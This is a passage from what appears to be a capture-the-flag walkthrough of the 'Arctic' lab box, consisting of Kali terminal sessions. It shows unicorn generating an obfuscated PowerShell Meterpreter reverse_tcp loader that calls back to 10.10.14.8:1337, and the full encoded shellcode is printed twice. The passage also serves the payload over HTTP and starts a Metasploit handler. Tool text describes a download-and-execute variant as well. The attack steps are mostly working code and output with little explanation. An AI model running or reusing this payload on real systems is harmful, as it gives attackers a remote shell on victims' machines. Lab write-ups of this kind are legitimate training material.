Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis

C:\ColdFusion8\runtime\bin>
```

```sh
root@kali:~/arctic# git clone https://github.com/trustedsec/unicorn.git
Cloning into 'unicorn'...
remote: Counting objects: 294, done.
remote: Total 294 (delta 0), reused 0 (delta 0), pack-reused 294
Receiving objects: 100% (294/294), 149.19 KiB | 1.14 MiB/s, done.
Resolving deltas: 100% (184/184), done.
root@kali:~/arctic# cd unicorn/
root@kali:~/arctic/unicorn# ls
CHANGELOG.txt  CREDITS.txt  LICENSE.txt  README.md  unicorn.py
root@kali:~/arctic/unicorn#
```

```sh
root@kali:~/arctic/unicorn# python unicorn.py windows/meterpreter/reverse_tcp 10.10.14.8 1337
[*] Generating the payload shellcode.. This could take a few seconds/minutes as we create the shellcode...

                                                         ,/
                                                        //
                                                      ,//
                                          ___   /|   |//
                                      `__/\_ --(/|___/-/
                                   \|\_-\___ __-_`- /-/ \.
                                  |\_-___,-\_____--/_)' ) \
                                   \ -_ /     __ \( `( __`\|
                                   `\__|      |\)\ ) /(/|
           ,._____.,            ',--//-|      \  |  '   /
          /     __. \,          / /,---|       \       /
         / /    _. \  \        `/`_/ _,'        |     |
        |  | ( (  \   |      ,/\'__/'/          |     |
        |  \  \`--, `_/_------______/           \(   )/
        | | \  \_. \,                            \___/\
        | |  \_   \  \                                 \
        \ \    \_ \   \   /                             \
         \ \  \._  \__ \_|       |                       \
          \ \___  \      \       |                        \
           \__ \__ \  \_ |       \                         |
           |  \_____ \  ____      |                        |
           | \  \__ ---' .__\     |        |               |
           \  \__ ---   /   )     |        \              /
            \   \____/ / ()(      \          `---_       /|
             \__________/(,--__    \_________.    |    ./ |
               |     \ \  `---_\--,           \   \_,./   |
               |      \  \_ ` \    /`---_______-\   \\    /
                \      \.___,`|   /              \   \\   \
                 \     |  \_ \|   \              (   |:    |
                  \    \      \    |             /  / |    ;
                   \    \      \    \          ( `_'   \  |
                    \.   \      \.   \          `__/   |  |
                      \   \       \.  \                |  |
                       \   \        \  \               (  )
                        \   |        \  |              |  |
                         |  \         \ \              I  `
                         ( __;        ( _;            ('-_';
                         |___\        \___:            \___:


aHR0cHM6Ly93d3cuYmluYXJ5ZGVmZW5zZS5jb20vd3AtY29udGVudC91cGxvYWRzLzIwMTcvMDUvS2VlcE1hdHRIYXBweS5qcGc=


Written by: Dave Kennedy at TrustedSec (https://www.trustedsec.com)
Twitter: @TrustedSec, @HackingDave

Happy Magic Unicorns.

[********************************************************************************************************]

				-----POWERSHELL ATTACK INSTRUCTIONS----

Everything is now generated in two files, powershell_attack.txt and unicorn.rc. The text file contains  all of the code needed in order to inject the powershell attack into memory. Note you will need a place that supports remote command injection of some sort. Often times this could be through an excel/word  doc or through psexec_commands inside of Metasploit, SQLi, etc.. There are so many implications and  scenarios to where you can use this attack at. Simply paste the powershell_attack.txt command in any command prompt window or where you have the ability to call the powershell executable and it will give a shell back to you. This attack also supports windows/download_exec for a payload method instead of just Meterpreter payloads. When using the download and exec, simply put python unicorn.py windows/download_exec url=https://www.thisisnotarealsite.com/payload.exe and the powershell code will download the payload and execute.

Note that you will need to have a listener enabled in order to capture the attack.

[*******************************************************************************************************]

[*] Exported powershell output code to powershell_attack.txt.
[*] Exported Metasploit RC file as unicorn.rc. Run msfconsole -r unicorn.rc to execute and create listener.


root@kali:~/arctic/unicorn#
```

```sh
root@kali:~/arctic/unicorn# cat unicorn.rc
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.14.8
set LPORT 1337
set ExitOnSession false
set EnableStageEncoding true
exploit -j
root@kali:~/arctic/unicorn#
```

```sh
root@kali:~/arctic/unicorn# cat powershell_attack.txt
powershell -w 1 -C "s''v lBt -;s''v Fg e''c;s''v Pz ((g''v lBt).value.toString()+(g''v Fg).value.toString());powershell (g''v Pz).value.toString() ('JABUAGEAIAA9ACAAJwAkAE8AYQAgAD0AIAAnACcAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAawBlAHIAbgBlAGwAMwAyAC4AZABsAGwAIgApAF0AcAB1AGIAbABpAGMAIABzAHQAYQB0AGkAYwAgAGUAeAB0AGUAcgBuACAASQBuAHQAUAB0AHIAIABWAGkAcgB0AHUAYQBsAEEAbABsAG8AYwAoAEkAbgB0AFAAdAByACAAbABwAEEAZABkAHIAZQBzAHMALAAgAHUAaQBuAHQAIABkAHcAUwBpAHoAZQAsACAAdQBpAG4AdAAgAGYAbABBAGwAbABvAGMAYQB0AGkAbwBuAFQAeQBwAGUALAAgAHUAaQBuAHQAIABmAGwAUAByAG8AdABlAGMAdAApADsAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAawBlAHIAbgBlAGwAMwAyAC4AZABsAGwAIgApAF0AcAB1AGIAbABpAGMAIABzAHQAYQB0AGkAYwAgAGUAeAB0AGUAcgBuACAASQBuAHQAUAB0AHIAIABDAHIAZQBhAHQAZQBUAGgAcgBlAGEAZAAoAEkAbgB0AFAAdAByACAAbABwAFQAaAByAGUAYQBkAEEAdAB0AHIAaQBiAHUAdABlAHMALAAgAHUAaQBuAHQAIABkAHcAUwB0AGEAYwBrAFMAaQB6AGUALAAgAEkAbgB0AFAAdAByACAAbABwAFMAdABhAHIAdABBAGQAZAByAGUAcwBzACwAIABJAG4AdABQAHQAcgAgAGwAcABQAGEAcgBhAG0AZQB0AGUAcgAsACAAdQBpAG4AdAAgAGQAdwBDAHIAZQBhAHQAaQBvAG4ARgBsAGEAZwBzACwAIABJAG4AdABQAHQAcgAgAGwAcABUAGgAcgBlAGEAZABJAGQAKQA7AFsARABsAGwASQBtAHAAbwByAHQAKAAiAG0AcwB2AGMAcgB0AC4AZABsAGwAIgApAF0AcAB1AGIAbABpAGMAIABzAHQAYQB0AGkAYwAgAGUAeAB0AGUAcgBuACAASQBuAHQAUAB0AHIAIABtAGUAbQBzAGUAdAAoAEkAbgB0AFAAdAByACAAZABlAHMAdAAsACAAdQBpAG4AdAAgAHMAcgBjACwAIAB1AGkAbgB0ACAAYwBvAHUAbgB0ACkAOwAnACcAOwAkAEIAQwAgAD0AIABBAGQAZAAtAFQAeQBwAGUAIAAtAG0AZQBtAGIAZQByAEQAZQBmAGkAbgBpAHQAaQBvAG4AIAAkAE8AYQAgAC0ATgBhAG0AZQAgACIAVwBpAG4AMwAyACIAIAAtAG4AYQBtAGUAcwBwAGEAYwBlACAAVwBpAG4AMwAyAEYAdQBuAGMAdABpAG8AbgBzACAALQBwAGEAcwBzAHQAaAByAHUAOwBbAEIAeQB0AGUAWwBdAF0AOwBbAEIAeQB0AGUAWwBdAF0AJABtAGYAIAA9ACAAMAB4AGYAYwAsADAAeABlADgALAAwAHgAOAAyACwAMAB4ADAAMAAsADAAeAAwADAALAAwAHgAMAAwACwAMAB4ADYAMAAsADAAeAA4ADkALAAwAHgAZQA1ACwAMAB4ADMAMQAsADAAeABjADAALAAwAHgANgA0ACwAMAB4ADgAYgAsADAAeAA1ADAALAAwAHgAMwAwACwAMAB4ADgAYgAsADAAeAA1ADIALAAwAHgAMABjACwAMAB4ADgAYgAsADAAeAA1ADIALAAwAHgAMQA0ACwAMAB4ADgAYgAsADAAeAA3ADIALAAwAHgAMgA4ACwAMAB4ADAAZgAsADAAeABiADcALAAwAHgANABhACwAMAB4ADIANgAsADAAeAAzADEALAAwAHgAZgBmACwAMAB4AGEAYwAsADAAeAAzAGMALAAwAHgANgAxACwAMAB4ADcAYwAsADAAeAAwADIALAAwAHgAMgBjACwAMAB4ADIAMAAsADAAeABjADEALAAwAHgAYwBmACwAMAB4ADAAZAAsADAAeAAwADEALAAwAHgAYwA3ACwAMAB4AGUAMgAsADAAeABmADIALAAwAHgANQAyACwAMAB4ADUANwAsADAAeAA4AGIALAAwAHgANQAyACwAMAB4ADEAMAAsADAAeAA4AGIALAAwAHgANABhACwAMAB4ADMAYwAsADAAeAA4AGIALAAwAHgANABjACwAMAB4ADEAMQAsADAAeAA3ADgALAAwAHgAZQAzACwAMAB4ADQAOAAsADAAeAAwADEALAAwAHgAZAAxACwAMAB4ADUAMQAsADAAeAA4AGIALAAwAHgANQA5ACwAMAB4ADIAMAAsADAAeAAwADEALAAwAHgAZAAzACwAMAB4ADgAYgAsADAAeAA0ADkALAAwAHgAMQA4ACwAMAB4AGUAMwAsADAAeAAzAGEALAAwAHgANAA5ACwAMAB4ADgAYgAsADAAeAAzADQALAAwAHgAOABiACwAMAB4ADAAMQAsADAAeABkADYALAAwAHgAMwAxACwAMAB4AGYAZgAsADAAeABhAGMALAAwAHgAYwAxACwAMAB4AGMAZgAsADAAeAAwAGQALAAwAHgAMAAxACwAMAB4AGMANwAsADAAeAAzADgALAAwAHgAZQAwACwAMAB4ADcANQAsADAAeABmADYALAAwAHgAMAAzACwAMAB4ADcAZAAsADAAeABmADgALAAwAHgAMwBiACwAMAB4ADcAZAAsADAAeAAyADQALAAwAHgANwA1ACwAMAB4AGUANAAsADAAeAA1ADgALAAwAHgAOABiACwAMAB4ADUAOAAsADAAeAAyADQALAAwAHgAMAAxACwAMAB4AGQAMwAsADAAeAA2ADYALAAwAHgAOABiACwAMAB4ADAAYwAsADAAeAA0AGIALAAwAHgAOABiACwAMAB4ADUAOAAsADAAeAAxAGMALAAwAHgAMAAxACwAMAB4AGQAMwAsADAAeAA4AGIALAAwAHgAMAA0ACwAMAB4ADgAYgAsADAAeAAwADEALAAwAHgAZAAwACwAMAB4ADgAOQAsADAAeAA0ADQALAAwAHgAMgA0ACwAMAB4ADIANAAsADAAeAA1AGIALAAwAHgANQBiACwAMAB4ADYAMQAsADAAeAA1ADkALAAwAHgANQBhACwAMAB4ADUAMQAsADAAeABmAGYALAAwAHgAZQAwACwAMAB4ADUAZgAsADAAeAA1AGYALAAwAHgANQBhACwAMAB4ADgAYgAsADAAeAAxADIALAAwAHgAZQBiACwAMAB4ADgAZAAsADAAeAA1AGQALAAwAHgANgA4ACwAMAB4ADMAMwAsADAAeAAzADIALAAwAHgAMAAwACwAMAB4ADAAMAAsADAAeAA2ADgALAAwAHgANwA3ACwAMAB4ADcAMwAsADAAeAAzADIALAAwAHgANQBmACwAMAB4ADUANAAsADAAeAA2ADgALAAwAHgANABjACwAMAB4ADcANwAsADAAeAAyADYALAAwAHgAMAA3ACwAMAB4AGYAZgAsADAAeABkADUALAAwAHgAYgA4ACwAMAB4ADkAMAAsADAAeAAwADEALAAwAHgAMAAwACwAMAB4ADAAMAAsADAAeAAyADkALAAwAHgAYwA0ACwAMAB4ADUANAAsADAAeAA1ADAALAAwAHgANgA4ACwAMAB4ADIAOQAsADAAeAA4ADAALAAwAHgANgBiACwAMAB4ADAAMAAsADAAeABmAGYALAAwAHgAZAA1ACwAMAB4ADYAYQAsADAAeAAwAGEALAAwAHgANgA4ACwAMAB4ADAAYQAsADAAeAAwAGEALAAwAHgAMABlACwAMAB4ADAAOAAsADAAeAA2ADgALAAwAHgAMAAyACwAMAB4ADAAMAAsADAAeAAwADUALAAwAHgAMwA5ACwAMAB4ADgAOQAsADAAeABlADYALAAwAHgANQAwACwAMAB4ADUAMAAsADAAeAA1ADAALAAwAHgANQAwACwAMAB4ADQAMAAsADAAeAA1ADAALAAwAHgANAAwACwAMAB4ADUAMAAsADAAeAA2ADgALAAwAHgAZQBhACwAMAB4ADAAZgAsADAAeABkAGYALAAwAHgAZQAwACwAMAB4AGYAZgAsADAAeABkADUALAAwAHgAOQA3ACwAMAB4ADYAYQAsADAAeAAxADAALAAwAHgANQA2ACwAMAB4ADUANwAsADAAeAA2ADgALAAwAHgAOQA5ACwAMAB4AGEANQAsADAAeAA3ADQALAAwAHgANgAxACwAMAB4AGYAZgAsADAAeABkADUALAAwAHgAOAA1ACwAMAB4AGMAMAAsADAAeAA3ADQALAAwAHgAMABjACwAMAB4AGYAZgAsADAAeAA0AGUALAAwAHgAMAA4ACwAMAB4ADcANQAsADAAeABlAGMALAAwAHgANgA4ACwAMAB4AGYAMAAsADAAeABiADUALAAwAHgAYQAyACwAMAB4ADUANgAsADAAeAB'+'mAGYALAAwAHgAZAA1ACwAMAB4ADYAYQAsADAAeAAwADAALAAwAHgANgBhACwAMAB4ADAANAAsADAAeAA1ADYALAAwAHgANQA3ACwAMAB4ADYAOAAsADAAeAAwADIALAAwAHgAZAA5ACwAMAB4AGMAOAAsADAAeAA1AGYALAAwAHgAZgBmACwAMAB4AGQANQAsADAAeAA4AGIALAAwAHgAMwA2ACwAMAB4ADYAYQAsADAAeAA0ADAALAAwAHgANgA4ACwAMAB4ADAAMAAsADAAeAAxADAALAAwAHgAMAAwACwAMAB4ADAAMAAsADAAeAA1ADYALAAwAHgANgBhACwAMAB4ADAAMAAsADAAeAA2ADgALAAwAHgANQA4ACwAMAB4AGEANAAsADAAeAA1ADMALAAwAHgAZQA1ACwAMAB4AGYAZgAsADAAeABkADUALAAwAHgAOQAzACwAMAB4ADUAMwAsADAAeAA2AGEALAAwAHgAMAAwACwAMAB4ADUANgAsADAAeAA1ADMALAAwAHgANQA3ACwAMAB4ADYAOAAsADAAeAAwADIALAAwAHgAZAA5ACwAMAB4AGMAOAAsADAAeAA1AGYALAAwAHgAZgBmACwAMAB4AGQANQAsADAAeAAwADEALAAwAHgAYwAzACwAMAB4ADIAOQAsADAAeABjADYALAAwAHgANwA1ACwAMAB4AGUAZQAsADAAeABjADMAOwAkAGsAQgAgAD0AIAAwAHgAMQAwADAAMAA7AGkAZgAgACgAJABtAGYALgBMAGUAbgBnAHQAaAAgAC0AZwB0ACAAMAB4ADEAMAAwADAAKQB7ACQAawBCACAAPQAgACQAbQBmAC4ATABlAG4AZwB0AGgAfQA7ACQAQQBhAD0AJABCAEMAOgA6AFYAaQByAHQAdQBhAGwAQQBsAGwAbwBjACgAMAAsADAAeAAxADAAMAAwACwAJABrAEIALAAwAHgANAAwACkAOwBmAG8AcgAgACgAJABmAHIAPQAwADsAJABmAHIAIAAtAGwAZQAgACgAJABtAGYALgBMAGUAbgBnAHQAaAAtADEAKQA7ACQAZgByACsAKwApACAAewAkAEIAQwA6ADoAbQBlAG0AcwBlAHQAKABbAEkAbgB0AFAAdAByAF0AKAAkAEEAYQAuAFQAbwBJAG4AdAAzADIAKAApACsAJABmAHIAKQAsACAAJABtAGYAWwAkAGYAcgBdACwAIAAxACkAfQA7ACQAQgBDADoAOgBDAHIAZQBhAHQAZQBUAGgAcgBlAGEAZAAoADAALAAwACwAJABBAGEALAAwACwAMAAsADAAKQA7AGYAbwByACAAKAA7ACkAewBTAHQAYQByAHQALQBTAGwAZQBlAHAAIAA2ADAAfQA7ACcAOwAkAGsAQQAgAD0AIABbAFMAeQBzAHQAZQBtAC4AQwBvAG4AdgBlAHIAdABdADoAOgBUAG8AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKABbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAG4AaQBjAG8AZABlAC4ARwBlAHQAQgB5AHQAZQBzACgAJABUAGEAKQApADsAJABuAGYAIAA9ACAAIgAtAGUAYwAgACIAOwBpAGYAKABbAEkAbgB0AFAAdAByAF0AOgA6AFMAaQB6AGUAIAAtAGUAcQAgADgAKQB7ACQAQgBDAHYAIAA9ACAAJABlAG4AdgA6AFMAeQBzAHQAZQBtAFIAbwBvAHQAIAArACAAIgBcAHMAeQBzAHcAbwB3ADYANABcAFcAaQBuAGQAbwB3AHMAUABvAHcAZQByAFMAaABlAGwAbABcAHYAMQAuADAAXABwAG8AdwBlAHIAcwBoAGUAbABsACIAOwBpAGUAeAAgACIAJgAgACQAQgBDAHYAIAAkAG4AZgAgACQAawBBACIAfQBlAGwAcwBlAHsAOwBpAGUAeAAgACIAJgAgAHAAbwB3AGUAcgBzAGgAZQBsAGwAIAAkAG4AZgAgACQAawBBACIAOwB9AA'+'==')"
root@kali:~/arctic/unicorn#
```

```sh
root@kali:~/arctic/unicorn# cat exploit.html
s''v lBt -;s''v Fg e''c;s''v Pz ((g''v lBt).value.toString()+(g''v Fg).value.toString());powershell (g''v Pz).value.toString() ('JABUAGEAIAA9ACAAJwAkAE8AYQAgAD0AIAAnACcAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAawBlAHIAbgBlAGwAMwAyAC4AZABsAGwAIgApAF0AcAB1AGIAbABpAGMAIABzAHQAYQB0AGkAYwAgAGUAeAB0AGUAcgBuACAASQBuAHQAUAB0AHIAIABWAGkAcgB0AHUAYQBsAEEAbABsAG8AYwAoAEkAbgB0AFAAdAByACAAbABwAEEAZABkAHIAZQBzAHMALAAgAHUAaQBuAHQAIABkAHcAUwBpAHoAZQAsACAAdQBpAG4AdAAgAGYAbABBAGwAbABvAGMAYQB0AGkAbwBuAFQAeQBwAGUALAAgAHUAaQBuAHQAIABmAGwAUAByAG8AdABlAGMAdAApADsAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAawBlAHIAbgBlAGwAMwAyAC4AZABsAGwAIgApAF0AcAB1AGIAbABpAGMAIABzAHQAYQB0AGkAYwAgAGUAeAB0AGUAcgBuACAASQBuAHQAUAB0AHIAIABDAHIAZQBhAHQAZQBUAGgAcgBlAGEAZAAoAEkAbgB0AFAAdAByACAAbABwAFQAaAByAGUAYQBkAEEAdAB0AHIAaQBiAHUAdABlAHMALAAgAHUAaQBuAHQAIABkAHcAUwB0AGEAYwBrAFMAaQB6AGUALAAgAEkAbgB0AFAAdAByACAAbABwAFMAdABhAHIAdABBAGQAZAByAGUAcwBzACwAIABJAG4AdABQAHQAcgAgAGwAcABQAGEAcgBhAG0AZQB0AGUAcgAsACAAdQBpAG4AdAAgAGQAdwBDAHIAZQBhAHQAaQBvAG4ARgBsAGEAZwBzACwAIABJAG4AdABQAHQAcgAgAGwAcABUAGgAcgBlAGEAZABJAGQAKQA7AFsARABsAGwASQBtAHAAbwByAHQAKAAiAG0AcwB2AGMAcgB0AC4AZABsAGwAIgApAF0AcAB1AGIAbABpAGMAIABzAHQAYQB0AGkAYwAgAGUAeAB0AGUAcgBuACAASQBuAHQAUAB0AHIAIABtAGUAbQBzAGUAdAAoAEkAbgB0AFAAdAByACAAZABlAHMAdAAsACAAdQBpAG4AdAAgAHMAcgBjACwAIAB1AGkAbgB0ACAAYwBvAHUAbgB0ACkAOwAnACcAOwAkAEIAQwAgAD0AIABBAGQAZAAtAFQAeQBwAGUAIAAtAG0AZQBtAGIAZQByAEQAZQBmAGkAbgBpAHQAaQBvAG4AIAAkAE8AYQAgAC0ATgBhAG0AZQAgACIAVwBpAG4AMwAyACIAIAAtAG4AYQBtAGUAcwBwAGEAYwBlACAAVwBpAG4AMwAyAEYAdQBuAGMAdABpAG8AbgBzACAALQBwAGEAcwBzAHQAaAByAHUAOwBbAEIAeQB0AGUAWwBdAF0AOwBbAEIAeQB0AGUAWwBdAF0AJABtAGYAIAA9ACAAMAB4AGYAYwAsADAAeABlADgALAAwAHgAOAAyACwAMAB4ADAAMAAsADAAeAAwADAALAAwAHgAMAAwACwAMAB4ADYAMAAsADAAeAA4ADkALAAwAHgAZQA1ACwAMAB4ADMAMQAsADAAeABjADAALAAwAHgANgA0ACwAMAB4ADgAYgAsADAAeAA1ADAALAAwAHgAMwAwACwAMAB4ADgAYgAsADAAeAA1ADIALAAwAHgAMABjACwAMAB4ADgAYgAsADAAeAA1ADIALAAwAHgAMQA0ACwAMAB4ADgAYgAsADAAeAA3ADIALAAwAHgAMgA4ACwAMAB4ADAAZgAsADAAeABiADcALAAwAHgANABhACwAMAB4ADIANgAsADAAeAAzADEALAAwAHgAZgBmACwAMAB4AGEAYwAsADAAeAAzAGMALAAwAHgANgAxACwAMAB4ADcAYwAsADAAeAAwADIALAAwAHgAMgBjACwAMAB4ADIAMAAsADAAeABjADEALAAwAHgAYwBmACwAMAB4ADAAZAAsADAAeAAwADEALAAwAHgAYwA3ACwAMAB4AGUAMgAsADAAeABmADIALAAwAHgANQAyACwAMAB4ADUANwAsADAAeAA4AGIALAAwAHgANQAyACwAMAB4ADEAMAAsADAAeAA4AGIALAAwAHgANABhACwAMAB4ADMAYwAsADAAeAA4AGIALAAwAHgANABjACwAMAB4ADEAMQAsADAAeAA3ADgALAAwAHgAZQAzACwAMAB4ADQAOAAsADAAeAAwADEALAAwAHgAZAAxACwAMAB4ADUAMQAsADAAeAA4AGIALAAwAHgANQA5ACwAMAB4ADIAMAAsADAAeAAwADEALAAwAHgAZAAzACwAMAB4ADgAYgAsADAAeAA0ADkALAAwAHgAMQA4ACwAMAB4AGUAMwAsADAAeAAzAGEALAAwAHgANAA5ACwAMAB4ADgAYgAsADAAeAAzADQALAAwAHgAOABiACwAMAB4ADAAMQAsADAAeABkADYALAAwAHgAMwAxACwAMAB4AGYAZgAsADAAeABhAGMALAAwAHgAYwAxACwAMAB4AGMAZgAsADAAeAAwAGQALAAwAHgAMAAxACwAMAB4AGMANwAsADAAeAAzADgALAAwAHgAZQAwACwAMAB4ADcANQAsADAAeABmADYALAAwAHgAMAAzACwAMAB4ADcAZAAsADAAeABmADgALAAwAHgAMwBiACwAMAB4ADcAZAAsADAAeAAyADQALAAwAHgANwA1ACwAMAB4AGUANAAsADAAeAA1ADgALAAwAHgAOABiACwAMAB4ADUAOAAsADAAeAAyADQALAAwAHgAMAAxACwAMAB4AGQAMwAsADAAeAA2ADYALAAwAHgAOABiACwAMAB4ADAAYwAsADAAeAA0AGIALAAwAHgAOABiACwAMAB4ADUAOAAsADAAeAAxAGMALAAwAHgAMAAxACwAMAB4AGQAMwAsADAAeAA4AGIALAAwAHgAMAA0ACwAMAB4ADgAYgAsADAAeAAwADEALAAwAHgAZAAwACwAMAB4ADgAOQAsADAAeAA0ADQALAAwAHgAMgA0ACwAMAB4ADIANAAsADAAeAA1AGIALAAwAHgANQBiACwAMAB4ADYAMQAsADAAeAA1ADkALAAwAHgANQBhACwAMAB4ADUAMQAsADAAeABmAGYALAAwAHgAZQAwACwAMAB4ADUAZgAsADAAeAA1AGYALAAwAHgANQBhACwAMAB4ADgAYgAsADAAeAAxADIALAAwAHgAZQBiACwAMAB4ADgAZAAsADAAeAA1AGQALAAwAHgANgA4ACwAMAB4ADMAMwAsADAAeAAzADIALAAwAHgAMAAwACwAMAB4ADAAMAAsADAAeAA2ADgALAAwAHgANwA3ACwAMAB4ADcAMwAsADAAeAAzADIALAAwAHgANQBmACwAMAB4ADUANAAsADAAeAA2ADgALAAwAHgANABjACwAMAB4ADcANwAsADAAeAAyADYALAAwAHgAMAA3ACwAMAB4AGYAZgAsADAAeABkADUALAAwAHgAYgA4ACwAMAB4ADkAMAAsADAAeAAwADEALAAwAHgAMAAwACwAMAB4ADAAMAAsADAAeAAyADkALAAwAHgAYwA0ACwAMAB4ADUANAAsADAAeAA1ADAALAAwAHgANgA4ACwAMAB4ADIAOQAsADAAeAA4ADAALAAwAHgANgBiACwAMAB4ADAAMAAsADAAeABmAGYALAAwAHgAZAA1ACwAMAB4ADYAYQAsADAAeAAwAGEALAAwAHgANgA4ACwAMAB4ADAAYQAsADAAeAAwAGEALAAwAHgAMABlACwAMAB4ADAAOAAsADAAeAA2ADgALAAwAHgAMAAyACwAMAB4ADAAMAAsADAAeAAwADUALAAwAHgAMwA5ACwAMAB4ADgAOQAsADAAeABlADYALAAwAHgANQAwACwAMAB4ADUAMAAsADAAeAA1ADAALAAwAHgANQAwACwAMAB4ADQAMAAsADAAeAA1ADAALAAwAHgANAAwACwAMAB4ADUAMAAsADAAeAA2ADgALAAwAHgAZQBhACwAMAB4ADAAZgAsADAAeABkAGYALAAwAHgAZQAwACwAMAB4AGYAZgAsADAAeABkADUALAAwAHgAOQA3ACwAMAB4ADYAYQAsADAAeAAxADAALAAwAHgANQA2ACwAMAB4ADUANwAsADAAeAA2ADgALAAwAHgAOQA5ACwAMAB4AGEANQAsADAAeAA3ADQALAAwAHgANgAxACwAMAB4AGYAZgAsADAAeABkADUALAAwAHgAOAA1ACwAMAB4AGMAMAAsADAAeAA3ADQALAAwAHgAMABjACwAMAB4AGYAZgAsADAAeAA0AGUALAAwAHgAMAA4ACwAMAB4ADcANQAsADAAeABlAGMALAAwAHgANgA4ACwAMAB4AGYAMAAsADAAeABiADUALAAwAHgAYQAyACwAMAB4ADUANgAsADAAeAB'+'mAGYALAAwAHgAZAA1ACwAMAB4ADYAYQAsADAAeAAwADAALAAwAHgANgBhACwAMAB4ADAANAAsADAAeAA1ADYALAAwAHgANQA3ACwAMAB4ADYAOAAsADAAeAAwADIALAAwAHgAZAA5ACwAMAB4AGMAOAAsADAAeAA1AGYALAAwAHgAZgBmACwAMAB4AGQANQAsADAAeAA4AGIALAAwAHgAMwA2ACwAMAB4ADYAYQAsADAAeAA0ADAALAAwAHgANgA4ACwAMAB4ADAAMAAsADAAeAAxADAALAAwAHgAMAAwACwAMAB4ADAAMAAsADAAeAA1ADYALAAwAHgANgBhACwAMAB4ADAAMAAsADAAeAA2ADgALAAwAHgANQA4ACwAMAB4AGEANAAsADAAeAA1ADMALAAwAHgAZQA1ACwAMAB4AGYAZgAsADAAeABkADUALAAwAHgAOQAzACwAMAB4ADUAMwAsADAAeAA2AGEALAAwAHgAMAAwACwAMAB4ADUANgAsADAAeAA1ADMALAAwAHgANQA3ACwAMAB4ADYAOAAsADAAeAAwADIALAAwAHgAZAA5ACwAMAB4AGMAOAAsADAAeAA1AGYALAAwAHgAZgBmACwAMAB4AGQANQAsADAAeAAwADEALAAwAHgAYwAzACwAMAB4ADIAOQAsADAAeABjADYALAAwAHgANwA1ACwAMAB4AGUAZQAsADAAeABjADMAOwAkAGsAQgAgAD0AIAAwAHgAMQAwADAAMAA7AGkAZgAgACgAJABtAGYALgBMAGUAbgBnAHQAaAAgAC0AZwB0ACAAMAB4ADEAMAAwADAAKQB7ACQAawBCACAAPQAgACQAbQBmAC4ATABlAG4AZwB0AGgAfQA7ACQAQQBhAD0AJABCAEMAOgA6AFYAaQByAHQAdQBhAGwAQQBsAGwAbwBjACgAMAAsADAAeAAxADAAMAAwACwAJABrAEIALAAwAHgANAAwACkAOwBmAG8AcgAgACgAJABmAHIAPQAwADsAJABmAHIAIAAtAGwAZQAgACgAJABtAGYALgBMAGUAbgBnAHQAaAAtADEAKQA7ACQAZgByACsAKwApACAAewAkAEIAQwA6ADoAbQBlAG0AcwBlAHQAKABbAEkAbgB0AFAAdAByAF0AKAAkAEEAYQAuAFQAbwBJAG4AdAAzADIAKAApACsAJABmAHIAKQAsACAAJABtAGYAWwAkAGYAcgBdACwAIAAxACkAfQA7ACQAQgBDADoAOgBDAHIAZQBhAHQAZQBUAGgAcgBlAGEAZAAoADAALAAwACwAJABBAGEALAAwACwAMAAsADAAKQA7AGYAbwByACAAKAA7ACkAewBTAHQAYQByAHQALQBTAGwAZQBlAHAAIAA2ADAAfQA7ACcAOwAkAGsAQQAgAD0AIABbAFMAeQBzAHQAZQBtAC4AQwBvAG4AdgBlAHIAdABdADoAOgBUAG8AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKABbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAG4AaQBjAG8AZABlAC4ARwBlAHQAQgB5AHQAZQBzACgAJABUAGEAKQApADsAJABuAGYAIAA9ACAAIgAtAGUAYwAgACIAOwBpAGYAKABbAEkAbgB0AFAAdAByAF0AOgA6AFMAaQB6AGUAIAAtAGUAcQAgADgAKQB7ACQAQgBDAHYAIAA9ACAAJABlAG4AdgA6AFMAeQBzAHQAZQBtAFIAbwBvAHQAIAArACAAIgBcAHMAeQBzAHcAbwB3ADYANABcAFcAaQBuAGQAbwB3AHMAUABvAHcAZQByAFMAaABlAGwAbABcAHYAMQAuADAAXABwAG8AdwBlAHIAcwBoAGUAbABsACIAOwBpAGUAeAAgACIAJgAgACQAQgBDAHYAIAAkAG4AZgAgACQAawBBACIAfQBlAGwAcwBlAHsAOwBpAGUAeAAgACIAJgAgAHAAbwB3AGUAcgBzAGgAZQBsAGwAIAAkAG4AZgAgACQAawBBACIAOwB9AA'+'==')
root@kali:~/arctic/unicorn#
```

```sh
root@kali:~/arctic/unicorn# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

```sh
root@kali:~/arctic/unicorn# msfconsole -r unicorn.rc


         .                                         .
 .

      dBBBBBBb  dBBBP dBBBBBBP dBBBBBb  .                       o
       '   dB'                     BBP
    dB'dB'dB' dBBP     dBP     dBP BB
   dB'dB'dB' dBP      dBP     dBP  BB
  dB'dB'dB' dBBBBP   dBP     dBBBBBBB

                                   dBBBBBP  dBBBBBb  dBP    dBBBBP dBP dBBBBBBP
          .                  .                  dB' dBP    dB'.BP
                             |       dBP    dBBBB' dBP    dB'.BP dBP    dBP
                           --o--    dBP    dBP    dBP    dB'.BP dBP    dBP
                             |     dBBBBP dBP    dBBBBP dBBBBP dBP    dBP

                                                                    .
                .
        o                  To boldly go where no
                            shell has gone before


       =[ metasploit v4.16.32-dev                         ]
+ -- --=[ 1726 exploits - 987 auxiliary - 300 post        ]
+ -- --=[ 507 payloads - 40 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

[*] Processing unicorn.rc for ERB directives.
resource (unicorn.rc)> use multi/handler
resource (unicorn.rc)> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
resource (unicorn.rc)> set LHOST 10.10.14.8
LHOST => 10.10.14.8
resource (unicorn.rc)> set LPORT 1337
LPORT => 1337
resource (unicorn.rc)> set ExitOnSession false
ExitOnSession => false
resource (unicorn.rc)> set EnableStageEncoding true
EnableStageEncoding => true
resource (unicorn.rc)> exploit -j
[*] Exploit running as background job 0.

